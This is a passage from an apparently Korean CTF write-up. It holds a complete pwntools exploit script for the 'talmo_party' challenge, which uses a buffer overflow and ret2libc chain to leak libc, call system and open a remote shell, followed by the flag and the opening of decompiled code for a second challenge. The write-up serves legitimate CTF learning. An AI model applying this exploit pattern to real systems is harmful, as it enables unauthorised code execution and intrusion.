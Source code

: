 <ul><li>ex.py</li></ul>

```
from pwn import *

e = ELF("./talmo_party")
#p = process(e.path)
p = remote("layer7.kr",12003)
libc = ELF("./layer7.so.6")
#libc = e.libc
context.log_level = 'debug'
pr = 0x08048866
pppr = 0x08048849

p.sendlineafter(">>","3")

payload = "a"*0x44
payload += p32(e.plt['puts']) + p32(pr) +p32(e.got['puts']) + p32(0x080486E0)
p.sendline(payload)

p.recvuntil("Good bye~~!\n")
puts = u32(p.recv(4))
libc_base = puts - libc.symbols['puts']
system = libc_base + libc.symbols['system']
read = libc_base + libc.symbols['read']

print(hex(libc_base))

p.recvuntil("plz!\n")
bin_sh = "/bin/sh\x00"

payload = "a"*0x44 + p32(read)+p32(pppr)+p32(0)+p32(0x0804A02C)+p32(len(bin_sh))
payload += p32(system)+"AAAA"+p32(0x0804A02C)

p.sendline(payload)
p.sendline(bin_sh)
p.interactive()
```

#### FLAG : LAYER7{1_r3411y_H4t3_t41m0_^______^}


### Life game - 150pt

바이너리를 열어보면 은행시스템과 돈을 벌 수 있는 메뉴들이 보이고 또 31337이라는 특별한 메뉴가 보인다.

```
int flag()
{
  char s; // [esp+0h] [ebp-A8h]
  char format; // [esp+80h] [ebp-28h]
  FILE *stream; // [esp+A0h] [ebp-8h]
  char *v4; // [esp+A4h] [ebp-4h]

  v4 = &s;
  if ( money > 99999 )
  {
    stream = fopen("./flag.txt", "r+");
    if ( !stream )
    {
      puts("Open Error...");
      puts("plz Contact us");
    }
    fgets(&s, 100, stream);
    printf("Flag is %p <- here!\n", v4);
    puts("Oh... you succeeded..!!");
```